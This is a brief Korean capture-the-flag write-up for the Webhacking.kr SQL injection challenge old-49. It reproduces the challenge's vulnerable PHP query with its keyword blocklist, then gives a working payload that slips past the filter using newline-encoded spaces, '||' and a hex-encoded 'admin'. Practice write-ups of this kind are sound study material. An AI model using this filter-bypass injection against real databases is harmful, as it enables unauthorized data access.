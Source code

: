 ```yaml
---
title: ["[Webhacking.kr] old-49 (sqli - 30)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli, mysql]
---
```


```php
<?php
  if($_GET['lv']){
    $db = dbconnect();
    if(preg_match("/select|or|and|\(|\)|limit|,|\/|order|cash| |\t|\'|\"/i",$_GET['lv'])) exit("no hack");
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall49 where lv={$_GET['lv']}"));
    echo $result[0] ;
    if($result[0]=="admin") solve(49);
  }
?>
```  

old-46과 동일한 DB인 것 같다.  
`(`, ` `, `\t`를 필터링하지만, `%0a`로 공백을 우회할 수 있다.

```
?lv=0%7c%7cid%0alike%0a0x61646d696e%23
```
